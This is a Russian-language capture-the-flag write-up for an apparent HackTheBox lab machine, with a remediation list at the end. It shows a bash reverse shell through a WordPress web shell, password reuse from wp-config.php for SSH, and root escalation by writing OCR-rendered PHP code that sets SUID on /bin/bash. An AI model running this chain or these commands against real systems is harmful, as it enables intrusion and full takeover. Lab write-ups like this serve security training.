

### Получение Reverse Shell

Для удобства был получен обратный шелл:

```python
nc -lvnp 4444
```

```python
curl -k -G "https://makesense.htb/wp-content/plugins/simple-shell/simple-shell.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.17.178/4444 0>&1'"
```



## Пост-эксплуатация и получение user.txt

Файл конфигурации WordPress находится по адресу `/var/www/html/wp-config.php` и содержит учётные данные базы данных MySQL:

```bash
cat wpconfig.php | grep i password
```



**Найден пароль:** `JbhHDAEgXvri3!`

Если выйти и перейти в директорию `/home`, можно увидеть пользователя `walter`. Пароль от базы данных совпал с паролем пользователя `walter` для SSH (credential reuse)



```bash
ssh walter@10.129.246.24
```

Пароль: `JbhHDAEgXvri3!`



**Флаг пользователя найден**
## Повышение привилегий до root (OCR-сервис)

Проверка локальных портов выявила сервис на порту `8001`, работающий от имени `root`:

```bash
ss -tlnp
```



Аутентификация в сервисе (пароль тот же — `JbhHDAEgXvri3!`):

```bash
curl -s -u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/
```

Сервис принимает изображение, распознаёт текст и позволяет сохранить результат в файл с произвольным именем. Это позволяет записать PHP-код в веб-директорию и выполнить его от имени root.

### Создание PNG с PHP-пейлоадом

На Kali был отрендерен PHP-код `<?php system('chmod +s /bin/bash'); ?>` в PNG с использованием шрифта `DejaVuSansMono`.

```python
from PIL import Image, ImageDraw, ImageFont
import base64

text = "<?php system('chmod +s /bin/bash'); ?>"
font = ImageFont.truetype("/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf", 64)

tmp = Image.new("RGB", (10, 10))
dd = ImageDraw.Draw(tmp)
bb = dd.textbbox((0, 0), text, font=font)
W, H = bb[2] - bb[0] + 80, bb[3] - bb[1] + 80

img = Image.new("RGB", (W, H), "white")
ImageDraw.Draw(img).text((40 - bb[0], 40 - bb[1]), text, fill="black", font=font)
img.save("payload.png")

data_url = "data:image/png;base64," + base64.b64encode(open("payload.png", "rb").read()).decode()
with open("payload_dataurl.txt", "w") as f:
    f.write(data_url)
print("Payload ready")
```



**Критическая проверка:** Tesseract на Kali должен прочитать пейлоад без ошибок.

```python
tesseract payload.png stdout
```



_Вывод совпал с исходным кодом, значит OCR-сервис на цели тоже распознает его корректно._

### Отправка и сохранение пейлоада

Запускаем HTTP-сервер на Kali:

```python
python3 -m http.server 9000
```



На целевой машине (в SSH-сессии) скачиваем файл и отправляем его в OCR-сервис:

```bash
curl -s http://10.10.17.178:9000/payload_dataurl.txt -o /tmp/payload_dataurl.txt
```

```bash
curl -s -u walter:JbhHDAEgXvri3! \
  -c /tmp/cookies.txt -b /tmp/cookies.txt \
  -o /tmp/ocr_response.html \
  --data-urlencode "canvas_image@/tmp/payload_dataurl.txt" \
  http://127.0.0.1:8001/
```



Проверяем, что сервер распознал PHP-код:

```bash
grep -A 1 'outputtext' /tmp/ocr_response.html
```

Извлекаем `ocr_id` и сохраняем файл как `pwn.php`:

```bash 
OCR_ID=$(grep -oE 'name="ocr_id" value="[^"]+"' /tmp/ocr_response.html | sed 's/.*value="//;s/"//')
curl -s -u walter:JbhHDAEgXvri3! \
  -c /tmp/cookies.txt -b /tmp/cookies.txt \
  -o /tmp/save_response.html \
  --data-urlencode "ocr_id=$OCR_ID" \
  --data-urlencode "filename=pwn.php" \
  --data-urlencode "save_output=Save" \
  http://127.0.0.1:8001/
```



### Получение root

Выполняем пейлоад (устанавливает SUID на `/bin/bash`):

```bash
curl -s -u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/saved/pwn.php
```

Проверяем SUID и получаем root:

```bash
ls -la /bin/bash
bash -p
whoami
cat /root/root.txt
```



**Флаг root найден**

---------
## Рекомендации по устранению уязвимостей

- **Hardcoded AES-GCM Key:** Никогда не хранить секреты в клиентском JavaScript. Использовать серверную аутентификацию (например, подписанные токены) вместо симметричного шифрования на клиенте.
- **Stored XSS:** Всегда экранировать пользовательский ввод при выводе, используя `esc_html()`, `wp_kses()` и другие функции WordPress.
- **Credential Reuse:** Использовать уникальные пароли для каждого сервиса. Хранить конфиденциальные данные (`.env`, `wp-config.php`) вне корневой директории веб-сервера.
- **OCR-сервис (Arbitrary File Write as Root):** Запускать сервис от имени непривилегированного пользователя. Валидировать имена файлов (разрешать только `.txt`), не позволять сохранять файлы в директорию, где выполняется PHP.
- **WordPress 7.0:** Обновить ядро WordPress до последней версии, чтобы закрыть известные уязвимости.